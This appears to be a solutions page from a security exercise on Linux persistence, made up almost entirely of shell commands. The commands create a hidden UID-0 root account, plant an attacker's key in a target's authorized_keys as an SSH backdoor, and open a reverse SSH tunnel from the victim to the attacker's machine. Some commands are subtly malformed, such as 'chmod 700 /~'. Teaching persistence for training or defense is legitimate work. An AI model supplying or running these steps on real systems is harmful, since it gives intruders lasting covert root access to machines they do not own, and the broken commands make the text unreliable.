 # Solutions for Persistence

### Add a root user

> sudo useradd -ou 0 -g 0 user_you_want_to_create

> sudo passwd user_you_created

> echo password_you_created | passwd --stdin user_you_created 

Now you have created a new root user!

### SSH Backdoor

You'll need to generate public/private keypair for the ssh to work. You can generate your keypair by giving the command:
> ssh-keygen

It will generate a private key __.ssh/id_rsa__ and a public key __.ssh/id_rsa.pub__.

Copy the public key to the target machine's __.ssh/authorized_keys__ file, it can be usually found in the home directory. This can be done by

> scp ~/.ssh/id_rsa.pub TARGET_USER@TARGET_IP:/ ~/.ssh/
(remove the space after Target_ip:/ and before ~)

And now in the target machines, give the command:
> cat ~/.ssh/id_rsa.pub >> authorized_keys 

This will copy the the public key into the authorized_keys file.

Remember to set the right permissions for the file, so you won't get any weird failures in the future.

> chmod 700 /~

> chmod 700 /~/.ssh

> chmod 600 /~/.ssh/authorized_keys

Now you can ssh to the target machine!
> ssh -i ~/.ssh/id_rsa victim@victimip

If this fails, you can try to create reverse SSH tunnel, and get the target machine to  contact you.

> ssh -N -R 9999:localhost:22 your_machine@your_ip

-N flag sets up the tunnel without promting a shell on your machine.

On your machine, check that your machine is listening the port 9999 by using the command:
> netstat -l

If everything is good, run on your machine:
>ssh -i ~/.ssh/id_rsa target_user@localhost -p 9999 

Reverse shell backdoor set up!
